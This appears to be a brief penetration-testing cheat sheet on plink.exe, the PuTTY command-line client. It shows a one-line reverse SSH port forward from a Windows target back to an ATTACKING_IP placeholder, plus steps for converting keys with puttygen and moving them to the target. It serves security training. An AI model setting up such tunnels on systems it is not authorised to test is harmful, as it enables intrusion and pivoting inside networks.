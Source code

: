 # Overview
>[!INFO]
Plink.exe is a Windows command line version of the PuTTY SSH client.
> Now that Windows comes with its **own inbuilt SSH client**, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

## Reverse Connection

```powershell
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

## Windows Servers

```bash
# Note !
# Keys generated by ssh-keygen will not work properly here.

# Convert them using the "puttygen" tool :
sudo apt install putty-tools

# Conversion can be done with :
puttygen KEYFILE -o OUTPUT_KEY.ppk

# The resulting .ppk file can then be transferred to the Windows target

# Download a new copy of plinx.exe from 
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```
